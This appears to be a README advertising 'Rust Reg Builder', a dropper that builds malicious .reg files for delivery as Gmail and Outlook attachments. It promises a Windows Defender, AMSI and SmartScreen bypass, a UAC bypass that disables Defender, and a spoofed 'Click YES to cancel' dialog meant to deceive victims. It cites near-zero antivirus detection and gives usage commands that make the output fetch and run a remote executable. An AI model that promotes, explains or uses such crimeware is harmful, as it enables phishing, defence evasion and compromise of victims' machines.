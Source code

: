 ## Rust Reg Builder


## What Features does it has?

### ✔️Gmail attachment
Can be directly attached and sent by Gmail.
### ✔️ Outlook attachment
Can be archived and then attached and sent by Outlook
### ✔️ Guaranteed Windows Defender Bypass
Forget about issues with Defender.
It bypasses AMSI and SmartScreen too.
### ✔️ UAC Bypass Exploit
Reliable UAC bypass will escalate to Administrator and disables Windows Defender
### ✔️ Dialog Spoof
.reg popup window will display a custom message.
For example: "Click 'YES' to cancel." - check the video
### ✔️ Save Money on Crypters
This dropper will protect your file from being scanned by Defender.
Your crypts will last longer!


# Detections

0/30 at the time of publishing

https://www.virustotal.com/gui/file/fbeeef5c910124cb9caba7fafcca2a807832f2baa56b3efea3c2ef3169a78f43?nocache=1


# Usage

rust-reg-builder.exe <direct_link> <output> </dialog_spoof_msg> </trashcode>

- Dialog spoof & Trashcode are optional

Both are recommended to enable
Trashcode is enabled by default

Example:

rust-reg-builder.exe http://1.1.1.1/a.exe out

rust-reg-builder.exe http://1.1.1.1/a.exe out "Press YES to cancel" true


